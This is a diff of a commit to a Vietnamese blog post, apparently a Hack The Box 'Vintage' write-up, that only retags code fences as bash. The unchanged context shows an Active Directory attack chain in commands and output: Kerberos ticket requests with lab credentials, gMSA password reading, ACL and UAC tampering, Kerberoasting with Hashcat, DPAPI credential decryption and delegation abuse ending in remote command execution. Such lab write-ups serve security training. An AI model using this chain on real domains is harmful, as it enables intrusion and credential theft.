

Before and after one commit to Luv3rie/Luv3rie.github.io, a Jekyll site: the page built from _posts/2026-11-12-htb-vintage.md, in a window 1280 px wide and 1400 px high, scrolled down 4775 px. Shown: the whole window at 92% size, without its empty margins (256-1259 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
add htb-vintage 4

````diff
--- a/_posts/2026-11-12-htb-vintage.md
+++ b/_posts/2026-11-12-htb-vintage.md
@@ -80,7 +80,7 @@ Host script results:
 
 Nmap cho thấy một DC điển hình. Điểm đáng chú ý là khi thử bind LDAP bằng creds ban đầu:
 
-```
+```bash
   nxc ldap DC01 -u p.rosa -p Rosaisbest123 -M whoami
 LDAP        10.129.231.205  389    DC01             [*] None (name:DC01) (domain:vintage.htb) (signing:None) (channel binding:No TLS cert) (NTLM:False)
 LDAP        10.129.231.205  389    DC01             [-] vintage.htb\p.rosa:Rosaisbest123 STATUS_NOT_SUPPORTED
@@ -88,7 +88,7 @@ LDAP        10.129.231.205  389    DC01             [-] vintage.htb\p.rosa:Rosai
 
 `STATUS_NOT_SUPPORTED` ở đây không phải sai mật khẩu mà là NTLM đã bị tắt trên domain (để ý `NTLM:False` trong output). Từ đây mọi thao tác đều phải đi qua Kerberos: Lấy TGT rồi dùng ccache.
 
-```
+```bash
   getTGT.py vintage.htb/p.rosa:Rosaisbest123
 Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
 
@@ -110,7 +110,7 @@ WHOAMI      DC01            389    DC01             User SID: S-1-5-21-402433782
 
 Liệt kê tài khoản máy, có ba máy: `DC01$`, `gMSA01$`, `FS01$`.
 
-```
+```bash
   nxc ldap DC01 -k --use-kcache --computers
 LDAP        DC01            389    DC01             [*] None (name:DC01) (domain:VINTAGE.HTB) (signing:None) (channel binding:No TLS cert) (NTLM:False)
 LDAP        DC01            389    DC01             [+] VINTAGE.HTB\p.rosa from ccache
@@ -125,7 +125,7 @@ LDAP        DC01            389    DC01             FS01$
 Nhiều khả năng FS01$ là tài khoản pre2k nên mình thử dùng module pre2k của NetExec, không hiểu sao nó không hốt được `FS01$` nhưng thử tay thì lại được.
 
 
-```
+```bash
   nxc ldap DC01 -k --use-kcache -M pre2k
 LDAP        DC01            389    DC01             [*] None (name:DC01) (domain:VINTAGE.HTB) (signing:None) (channel binding:No TLS cert) (NTLM:False)
 LDAP        DC01            389    DC01             [+] VINTAGE.HTB\p.rosa from ccache
@@ -141,7 +141,7 @@ Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
 
 `FS01$` nằm trong `Domain Computers` và `gMSA01$` cho phép `Domain Computers` đọc mật khẩu của nó (`PrincipalsAllowedToReadPassword: Domain Computers`).
 
-```
+```bash
   export KRB5CCNAME=fs01\$.ccache
   nxc ldap DC01 -k --use-kcache --gmsa
 LDAP        DC01            389    DC01             [*] None (name:DC01) (domain:VINTAGE.HTB) (signing:None) (channel binding:No TLS cert) (NTLM:False)
@@ -163,7 +163,7 @@ Trong 3 tài khoản dịch vụ thì `svc_sql` gắn với SQL thường là co
 
 Thử thêm mình vào `SERVICEMANAGERS` và thành công.
 
-```
+```bash
   getTGT.py 'vintage.htb/gmsa01$:fs01' -hashes :f44e1eceaa7a24c32e8a54d62d032f96
 Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
 
@@ -174,7 +174,7 @@ Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
 ```
 Thêm genericAll lên `svc_sql`:
 
-```
+```bash
   getTGT.py 'vintage.htb/gmsa01$:fs01' -hashes :f44e1eceaa7a24c32e8a54d62d032f96
 Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
 
@@ -191,7 +191,7 @@ Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
 Xin TGT cho `svc_sql` thì gặp `KDC_ERR_CLIENT_REVOKED`:
 
 
-```
+```bash
   getTGT.py vintage.htb/svc_sql:Password123
 Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
 
@@ -200,14 +200,14 @@ Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revo
 
 Nghĩa là tài khoản đang bị vô hiệu hóa (cờ UAC của nó có tên `ACCOUNTDISABLE`). Vì đang có genericAll nên ta gỡ nó luôn:
 
-```
+```bash
   bloodyad -k -d vintage.htb -H DC01.vintage.htb remove uac svc_sql -f ACCOUNTDISABLE
 [+] ['ACCOUNTDISABLE'] property flags removed from svc_sql's userAccountControl
 ```
 
 `svc_sql` chưa có SPN nên không Kerberoast trực tiếp được. Ta tự gắn SPN rồi roast:
 
-```
+```bash
   bloodyad -k -d vintage.htb -H DC01.vintage.htb set object svc_sql servicePrincipalName -v mssqlsvc/DC01
 [+] svc_sql's servicePrincipalName has been updated
   nxc ldap DC01 -k --use-kcache --kerberoasting kerberoast.txt
@@ -221,7 +221,7 @@ LDAP        DC01            389    DC01             $krb5tgs$23$*svc_sql$VINTAGE
 
 Lưu vào file và crack bằng Hashcat với `rockyou.txt` ra được mật khẩu: `Zer0the0ne`
 
-```
+```bash
   nano hash
   hashcat hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -a 0
 <SNIP>
@@ -234,7 +234,7 @@ $krb5tgs$23$*svc_sql$VINTAGE.HTB$vintage.htb\svc_sql*$8af357388bdad83b8b5e67373a
 `Zer0the0ne` được dùng lại cho `c.neri` (Domain chỉ có vài user nên mình rải kèm xin vé luôn):
 
 
-```
+```bash
   getTGT.py vintage.htb/c.neri:Zer0the0ne
 Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
 
@@ -246,7 +246,7 @@ Cậu này trong BloodHound cho thấy thuộc nhóm `REMOTE MANAGEMENT USERS` n
 ![](/assets/img/htb-vintage/bloodhound-2.png)
 
 
-```
+```bash
   export KRB5CCNAME=c.neri.ccache
   sudo nano /etc/krb5.conf
 [sudo] password for aeverie:
@@ -363,7 +363,7 @@ curl.exe :   % Total    % Received % Xferd  Average Speed   Time    Time     Tim
 
 Giải mã masterkey:
 
-```
+```bash
   dpapi.py masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
 Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
 
@@ -384,7 +384,7 @@ Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e6
 Giải mã creds, nhặt được tài khoản `c.neri_adm`
 
 
-```
+```bash
   dpapi.py credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
 Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
 
@@ -414,7 +414,7 @@ Khác với constrained delegation cổ điển (cấu hình nằm trên tài kh
 
 Thêm `FS01$` vào nhóm:
 
-```fish
+```bash
   getTGT.py vintage.htb/c.neri_adm:Uncr4ck4bl3P4ssW0rd0312
 Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
 
@@ -427,7 +427,7 @@ Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
 Xin lại vé và thực hiện s4u:
 
 
-```
+```bash
   getTGT.py 'vintage.htb/fs01$:fs01'
 Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
 
@@ -444,7 +444,7 @@ Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
 
 Đọc `root.txt`:
 
-```
+```bash
   export KRB5CCNAME=l.bianchi_adm@cifs_DC01.vintage.htb@VINTAGE.HTB.ccache
   nxc smb DC01.vintage.htb -k --use-kcache -x "type C:\Users\Administrator\Desktop\root.txt"
 SMB         DC01.vintage.htb 445    DC01             [*]  x64 (name:DC01) (domain:vintage.htb) (signing:True) (SMBv1:False) (NTLM:False) (DC:True)
````
